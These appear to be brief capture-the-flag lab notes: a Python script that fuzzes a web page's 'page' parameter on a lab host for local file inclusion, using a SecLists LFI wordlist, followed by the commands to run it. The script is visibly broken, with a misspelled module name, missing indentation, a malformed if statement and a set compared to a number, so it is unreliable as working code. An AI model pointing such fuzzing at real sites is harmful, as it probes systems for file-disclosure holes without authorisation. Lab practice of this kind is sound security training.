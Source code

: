 Reference: [[LFI (Local file inclusion)]]
Create script file
micro lfi-fuzz.py
```python
import requests
with open('LFI-Jhaddix.txt', 'r') as file:
	for line in file:
	line = line.strip()
	response = requsets.get(f'http://dev.team.thm/script.php?page={line}')
	if({len(response.text)} != 1)
		print(f'{len(response.text)} # # # {line}')
```
```bash
cp /usr/share/seclists/Fuzzing/LFI-Jhaddix.txt .
```
RUN
```python
python3 lfi-fuzz.py
```
> [!Warning] FUZZ with Burp Pro
> Can be done with burp pro some how!

